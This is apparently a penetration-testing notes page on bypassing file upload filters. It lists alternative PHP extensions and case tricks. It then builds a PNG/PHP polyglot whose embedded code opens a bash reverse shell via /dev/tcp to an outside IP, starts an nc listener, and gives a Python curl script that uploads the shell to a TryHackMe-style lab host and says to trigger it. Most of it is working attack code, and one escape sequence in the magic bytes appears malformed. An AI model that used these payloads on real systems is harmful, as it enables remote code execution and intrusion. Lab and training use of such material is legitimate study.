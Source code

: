 This is a very usefull article to see how curl upload file works : [Petehouston - Upload Files with curl](https://medium.com/@petehouston/upload-files-with-curl-93064dcccc76)


## PHP | Bypass File Upload Restriction

*alternative extensions*

```sh
.pht, .phtml, .php3, .php4, .php5, .php6, .inc
```

*tricks*

```sh
.pHp, .Php, .phP
```


more here : [Null Byte : Bypass Restrictions](https://null-byte.wonderhowto.com/how-to/bypass-file-upload-restrictions-web-apps-get-shell-0323454/)


## PNG | MAGIC Bytes

See this useful blog : [HackTricks - File Upload #magic-header-bytes](https://book.hacktricks.xyz/pentesting-web/file-upload#magic-header-bytes)

```sh
┌──(alienum㉿kali)-[~/Desktop/oscp]
└─$ echo -e $'\x89PNG\r\n\x1a\n\0\0\0\rIHDR\0\0\x03H\0\xs0\x03[\n<?php exec("/bin/bash -c \'bash -i >& /dev/tcp/10.8.28.219/443 0>&1\'");' > she_ll.png.phP

┌──(alienum㉿kali)-[~/Desktop/oscp]
└─$ file she_ll.png.phP
she_ll.png.phP: PNG image data, 840 x 29488, 3-bit
```

- Note [echo -e] enable interpretation of the following backslash escapes

*Listener*

```sh
sudo nc -lnvp 443
```

## Upload Script

```python
import os
import sys
import time

os.system('curl -k -F "fileToUpload=@./she_ll.png.phP" -H "Cookie: isHuman=1" https://monitorr.robyns-petshop.thm/assets/php/upload.php')
print('[+] Shell Uploaded')
print('[+] Sleep')
time.sleep(4)
print('Go to : https://monitorr.robyns-petshop.thm/assets/data/usrimg/sh_ell.png.php and trigger it')
```
